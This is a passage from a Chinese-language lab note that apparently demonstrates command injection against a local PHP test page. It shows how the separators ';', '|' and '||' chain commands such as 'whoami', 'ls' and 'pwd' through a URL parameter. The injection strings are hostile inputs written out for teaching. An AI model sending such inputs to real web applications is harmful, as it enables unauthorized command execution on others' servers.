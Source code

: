 `http://127.0.0.1:9999/test1.php?cmd=whoamip;ls`

![](assets/markdown-img-paste-20180416110705711.png)

可见在Linux中符号`;`是不论如何都会执行所有命令，并输出

`http://127.0.0.1:9999/test1.php?cmd=whoamip|ls`

![](assets/markdown-img-paste-20180416111026984.png)

`http://127.0.0.1:9999/test1.php?cmd=whoami|ls`  

![](assets/markdown-img-paste-2018041611111353.png)

可见`|`管道符的作用就是输出后面的命令的输出，当前面的命令出错效果跟`;`是一样的，执行所有命令但是只输出最后面的命令  

`http://127.0.0.1:9999/test1.php?cmd=whoamia||lsa||pwd`

![](assets/markdown-img-paste-20180416121707172.png)
